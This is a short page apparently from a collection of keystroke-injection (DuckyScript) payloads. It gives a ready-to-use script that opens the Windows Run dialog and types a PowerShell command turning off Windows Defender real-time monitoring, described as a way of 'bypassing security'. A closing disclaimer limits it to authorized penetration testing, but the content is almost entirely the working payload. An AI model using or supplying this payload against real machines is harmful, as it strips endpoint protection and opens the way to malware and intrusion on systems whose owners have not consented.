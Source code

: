 # Disable Windows Defender

Disables Windows Defender temporarily (can be useful for bypassing security during testing).

```
DELAY 500
GUI r
DELAY 500
STRING powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.